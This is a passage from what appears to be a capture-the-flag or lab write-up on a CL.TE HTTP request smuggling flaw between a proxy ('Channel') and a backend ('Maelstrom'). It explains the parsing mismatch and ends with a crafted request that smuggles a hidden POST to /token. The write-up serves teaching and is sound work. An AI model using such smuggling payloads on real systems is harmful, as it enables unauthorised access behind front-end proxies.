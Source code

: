 After doing so, we can check the logging, and find output similar to the below. Reading through `Channel` first in the beginning, we can see the first request working as normal, with the packet body being received as normal (we can see 10 bytes read, "helloworld"). However, the `Maelstrom` logging shows that it failed with a "Malformed request -- Bad data size for transfer encoding". This is because `Maelstrom` tried to read the body as encoded chunks, and could not do so since the body is not chunked.

![A screenshot of the proxy logging, showing that channel forwards the request, but keeps the incorrect transfer encoding header. The maelstrom logs then show the packet being parsed as a chunked encoding, rather than using the content length.](./imgs/maelstrom-clte.png "Proxy Vulnerable to CL.TE")

This is vulnerable to a CL.TE HTTP smuggling attack. A good HTTP request with a chunked `Transfer-Encoding` looks like the following (I've added "comments" to the body to explain).

```http
POST /maelstrom HTTP/1.1
Host: channel.us:8080
Transfer-Encoding: chunked

a            //Size, in hex, of the first chunk
1234567890   //Chunk 1, size 10 (0xa)
2            //Size of chunk 2
12           //Chunk 2, size 2 (0x2)
0            //Size of 0 represents end of chunked data

```

What we want to do is create an HTTP request where the body contains another HTTP request, with a correct `Content-Length`, so that both are sent through the proxy as a single request. It should also include a `Transfer-Encoding: chunked` and a fake `0` chunk so that `Maelstrom` will mistakenly split them apart. The second request should have `Host: maelstrom.us:8080` since that is the server that will be processing the smuggled request, and it should also request `/token` as the path. The following request looks like this:

```http
POST /maelstrom HTTP/1.1
Host: channel.us:8080
Connection: keep-alive
Content-Length: 63
Transfer-Encoding: chunked

0

POST /token HTTP/1.1
Host: maelstrom.us:8080

```
